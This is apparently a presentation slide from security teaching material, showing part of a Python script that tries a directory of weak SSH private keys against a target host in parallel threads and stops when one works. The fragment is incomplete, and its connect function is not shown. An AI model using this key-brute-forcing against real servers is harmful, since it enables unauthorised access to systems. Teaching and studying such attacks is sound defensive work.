

# Exploiting SSH Through Weak Private Keys CONTD..

for filename in os.listdir(args.d):
        if Stop:
            print('[*] Exiting: Key Found.')
            exit(0)
        if Fails > 5:
            print('[!] Exiting: Too Many Connections Closed By Remote Host.\n'
                  '[!] Adjust number of simultaneous threads.')
            exit(0)
        connection_lock.acquire()
        fullpath = os.path.join(args.d, filename)
        print(f'[-] Testing keyfile {str(fullpath)}')
        t = threading.Thread(target=connect,
                             args=(args.u, args.tgt_host, fullpath))
        t.start()